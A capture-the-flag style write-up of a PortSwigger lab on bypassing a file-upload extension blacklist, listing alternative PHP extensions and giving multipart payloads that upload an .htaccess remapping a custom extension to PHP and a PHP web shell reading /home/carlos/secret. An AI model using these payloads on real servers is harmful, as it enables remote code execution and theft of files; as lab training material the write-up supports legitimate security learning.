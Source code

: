 # Web shell upload via extension blacklist bypass
# Objective
This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis

### Upload request example
|![](Images/image-17.png)|
|:--:| 
| *Normal upload request* |
|![](Images/image-18.png)|
| *Path to uploaded file* |

### Configuration files
Above file upload request and response reveal information about server:
```
Server: Apache/2.4.41 (Ubuntu)
```
#### Apache
Potentially interesting files containg server configuration:
```
/etc/apache2/apache2.conf     --> Global configuration file
.htaccess                     --> Configuration file for individual directories (to override or add to one or more of the global settings)
```

Example - map `.php` extension (extension can be arbitrary) to be handled as `x-httpd-php`:
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```
#### IIS

```
web.config      --> Configuration file for individual directories

<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>
```


Example - allow `JSON` files to be served to users:
```
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>
```

### PHP payload upload test
File extension `.php` is blacklisted.
|![](Images/image-20.png)|
|:--:| 
| *PHP files are not allowed* |
|![](Images/image-19.png)|
| *PHP files are not allowed* |


## Exploitation
### Uploading different file extension
Alternatives for `.php` extension (source [Portswigger](https://portswigger.net/web-security/file-upload#exploiting-flawed-validation-of-file-uploads)/[HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)):
```
.php5, .shtml
.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
```
|![](Images/image-21.png)|
|:--:| 
| *Successful PHP payload upload - .php5 files are allowed* |
|![](Images/image-22.png)|
| *PHP payload was not executed* |

### Uploading .htaccess file and payload with arbitrary extension
Uploading `.htaccess` can influence how files with different extensions will be handled in a given directory.
|![](Images/image-23.png)|
|:--:| 
| *Successful .htaccess file upload* |
|![](Images/image-24.png)|
| *Successful PHP payload upload with arbitrary extension* |
|![](Images/image-25.png)|
| *Triggering uploaded PHP file* |

```
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .malicious
```

```
Content-Disposition: form-data; name="avatar"; filename="exploit.malicious"
Content-Type: text/html

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

This could have been done by following payload in `.htaccess` and previous `exploit.php5` file.
```
AddType application/x-httpd-php .php5
```